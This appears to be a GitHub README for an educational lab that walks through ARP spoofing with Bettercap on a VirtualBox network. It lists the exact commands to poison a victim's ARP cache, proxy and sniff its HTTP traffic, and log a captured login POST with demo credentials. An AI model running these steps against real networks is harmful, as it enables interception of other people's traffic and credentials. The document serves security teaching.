 # ARP-MITM-Bettercap
> ⚠️ **Disclaimer**: This project is for educational purposes only. Do **not** perform these actions on networks you do not own or have explicit permission to test. Unauthorized access is illegal.

## 🎯 Objective

The main objective of our project is to demonstrate Man-in-the -Middle attack using ARP spoofing. This includes capturing unencrypted http packet through traffic sniffing and storing the log in a file for further use which include security risk associated with such attacks on unsecured networks.   


## LAB SET-UP
### 💻 Attacker Machine

**OS**: Kali Linux 2024.1  

**Tool Used**: Bettercap  

**IP Address**: 192.168.1.5  

**Role**: Perform ARP spoofing, sniff HTTP traffic

### 🖥️ Victim Machine

**OS**: Ubuntu or Windows 10   

**Browser**: Firefox / Chrome  

**IP Address**: 192.168.1.10  

**Role**: Target of the attack, visiting HTTP websites

### 🌐 Network Setup

**Type**: Bridged Adapter (VirtualBox)  

**Interface**: `eth0` (for attacker)  

**Same Local Network**: Yes ✅   

  Check your network  interface:  
  ```   bash
  ip a
  ```
  Check your Default gateway:(victim)
  ```  bash
  ip route
  ```
Install **Bettercap** if not already installed:

```bash
 sudo apt update
 sudo apt install bettercap
 ```

1. **Start Bettercap and save logs in a file:**
    ```bash
    sudo bettercap -iface eth0 | tee <Name of the file>.txt
    ```

2. **Scan Network:**
    ```bash
    net.probe on
    ```
    ## Observing Output
    ``` output
    192.168.1.0/24 > 192.168.1.5  » net.probe on
    [10:09:18] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [sys.log] [inf] net.probe probing 256 addresses on 192.168.1.0/24
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint fe80::xxxx:xxxx:xxxx:xxxx detected as **AA:BB:CC:DD:EE:01** (Generic Device Vendor)
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint 192.168.1.10 detected as **AA:BB:CC:DD:EE:02** (Generic Device Vendor)
```

net.show
```
## Observing Output
```output
192.168.1.0/24 > 192.168.1.5  » net.show

┌────────────────────────────┬────────────────────┬─────────────────┬──────────────────────────────────────────────┬───────┬───────┬──────────┐
│           IP ▴             │        MAC         │      Name       │                    Vendor                    │ Sent  │ Recvd │   Seen   │
├────────────────────────────┼────────────────────┼─────────────────┼──────────────────────────────────────────────┼───────┼───────┼──────────┤
│ 192.168.1.5                │ AA:BB:CC:11:22:33   │ eth0            │ PCS Systemtechnik GmbH                       │ 0 B   │ 0 B   │ 10:09:11 │
│ 192.168.1.13               │ DD:EE:FF:44:55:66   │ gateway         │                                              │ 695 B │ 477 B │ 10:09:11 │
│                            │                    │                 │                                              │       │       │          │
│ fe80::xxxx:xxxx:xxxx:xxxx  │ FF:AA:CC:77:88:99   │ LAPTOP-USER     │ CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD. │ 0 B   │ 0 B   │ 10:09:20 │
│ 192.168.1.10               │ 11:22:33:44:55:66   │                 │ PCS Systemtechnik GmbH                       │ 120 B │ 92 B  │ 10:09:20 │
└────────────────────────────┴────────────────────┴─────────────────┴──────────────────────────────────────────────┴───────┴───────┴──────────┘
```

3. **Set Victim IP:**
    ```bash
    set arp.spoof.targets 192.168.1.10
    ```

4. **Launch Attack:**
    ```bash
    arp.spoof on
    http.proxy on
    net.sniff on
    ```

5. **Ask the victim to visit a non-HTTPS site** (for demonstration):
    ```
    http://testphp.vulnweb.com/login.php
    ```

6. **Captured Output:**
    ```OUTPUT
    192.168.1.0/24 > 192.168.1.5  » [10:10:36] [net.sniff.http.request] http 192.168.1.10 POST testphp.vulnweb.com/userinfo.php                                                                                              POST /userinfo.php HTTP/1.1
          Host: testphp.vulnweb.com
          Origin: http://testphp.vulnweb.com
          Connection: keep-alive
          Upgrade-Insecure-Requests: 1
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
          Accept-Encoding: gzip, deflate
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 23
          Priority: u=0, i
          User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
          Accept-Language: en-US,en;q=0.5
          Referer: http://testphp.vulnweb.com/login.php

          uname=demoUser&pass=demoPass

    ```
   7.**see the output**
   ```
   cat <Name of the file>.txt
  ```
